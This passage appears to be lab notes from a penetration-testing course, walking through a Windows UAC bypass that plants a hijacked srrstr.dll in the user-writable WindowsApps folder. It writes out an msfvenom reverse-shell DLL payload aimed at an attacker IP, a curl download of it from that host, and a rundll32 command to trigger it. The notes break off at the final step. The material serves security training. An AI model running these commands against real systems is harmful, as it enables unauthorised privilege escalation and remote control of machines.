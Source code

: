 ```
Author: egre55

- Type: Dll Hijack
- Method: Dll path search abuse
- Target(s): \syswow64\SystemPropertiesAdvanced.exe and other SystemProperties*.exe
- Component(s): \AppData\Local\Microsoft\WindowsApps\srrstr.dll
- Implementation: ucmEgre55Method
- Works from: Windows 10 (14393)
- Fixed in: Windows 10 19H1 (18362)
    - How: SysDm.cpl!_CreateSystemRestorePage has been updated for secured load library call
- Code status: removed starting from v3.5.0 🚜
```

#### 1. Reviewing Path Variable

Let's examine the path variable using the command `cmd /c echo %PATH%`. This reveals the default folders below. The `WindowsApps` folder is within the user's profile and writable by the user.

```powershell
PS C:\htb> cmd /c echo %PATH%

C:\Windows\system32;
C:\Windows;
C:\Windows\System32\Wbem;
C:\Windows\System32\WindowsPowerShell\v1.0\;
C:\Users\sarah\AppData\Local\Microsoft\WindowsApps;
```

We can potentially bypass UAC in this by using DLL hijacking by placing a malicious `srrstr.dll` DLL to `WindowsApps` folder, which will be loaded in an elevated context.
#### 2. Generating Malicious srrstr.dll DLL

```shell-session
PrinceAli1@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
```

```powershell
PS C:\htb>curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

#### 3. Testing Connection

If we execute the malicious `srrstr.dll` file, we will receive a shell back showing normal user rights (UAC enabled). To test this, we can run the DLL using `rundll32.exe` to get a reverse shell connection.

``` batch
C:\htb> rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

#### 4. Executing SystemPropertiesAdvanced.exe on Target to bypass UAC
